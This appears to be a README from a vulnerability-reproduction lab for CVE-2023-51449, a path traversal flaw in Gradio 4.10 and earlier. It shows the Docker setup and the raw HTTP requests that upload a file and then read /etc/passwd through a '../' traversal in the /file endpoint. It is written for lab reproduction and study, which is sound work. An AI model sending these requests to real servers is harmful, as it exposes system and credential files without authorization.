


# Gradio File Path Traversal (CVE-2023-51449)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library that allows users to quickly build visual web interfaces for machine learning models without writing any front-end code.

In Gradio versions 4.11 and below, when authentication is not enabled, an attacker who knows the file path can use a public URL to access arbitrary files on the server running the Gradio application.

References:

- <https://github.com/gradio-app/gradio/pull/6833>
- <https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2>

## Environment Setup

Execute the following command to start an application built with Gradio 4.10.0:

```
docker compose up -d
```

After the server starts, authentication is disabled by default. You can access the application at `http://your-ip:7860`.

## Vulnerability Reproduction

First, use the upload interface to upload any file and obtain an accessible file path.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```



Once you have an accessible file path, use the `/file` interface with directory traversal to read arbitrary files from the server, such as `/etc/passwd`:

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip

```


